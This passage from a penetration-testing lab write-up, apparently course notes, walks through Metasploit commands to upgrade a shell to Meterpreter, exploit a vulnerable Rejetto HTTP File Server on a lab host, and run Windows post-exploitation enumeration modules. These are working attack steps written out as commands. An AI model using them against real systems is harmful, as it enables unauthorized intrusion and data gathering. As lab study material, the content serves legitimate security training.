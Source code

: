 ```shell
# Now we can upgrade this command shell session to a Meterpreter shell by using a post-exploitation module.
search shell_to_meterpreter
use post/multi/manage/shell_to_meterpreter
show options
set SESSION 1
set LHOST <local_kali_IP>
run

# We can now interact with the target system with a meterpreter shell
sessions
```

<br>

## 8. Windows Post Exploitation

### 8.1. Windows Post Exploitation Modules

This lab covers the process of automating various phases of post-exploitation through the use of various Metasploit modules.

**Objective:** Your task is to run various Windows Post Exploitation Metasploit modules against the compromised target.

```shell
# Run an nmap scan against the target
nmap -sV <target_IP>

# The target system has a vulnerable version of the Rejetto HTTP File Server running on port 80 that can be exploited through the use of a Metasploit module.
service postgresql start && msfconsole
search rejetto
use exploit/windows/http/rejetto_hfs_exec
set RHOSTS demo.ine.local
run

# The successful execution of the module will provide us with a meterpreter session. We have now gained access to the Windows system and can begin the process of automating post exploitation with Metasploit.
```

Given that have obtained a meterpreter session on the target system, we can leverage various post-exploitation modules to automate the enumeration of important information.

```shell
background

# 1) The first module we can explore is the win_privs module, which can be used to automate the enumeration of the current user privileges. 
use post/windows/gather/win_privs

# 2) The next module we can use is the enum_logged_on_users which as the name suggests, enumerates a list of currently and previous logged on users. 
use post/windows/gather/enum_logged_on_users

# 3) We can also check if the target system is a virtual machine by leveraging a module called checkvm. 
use post/windows/gather/checkvm

# 4) Another important module is the enum_applications module. This module enumerates a list of installed application/programs on the target system. 
use post/windows/gather/enum_applications
```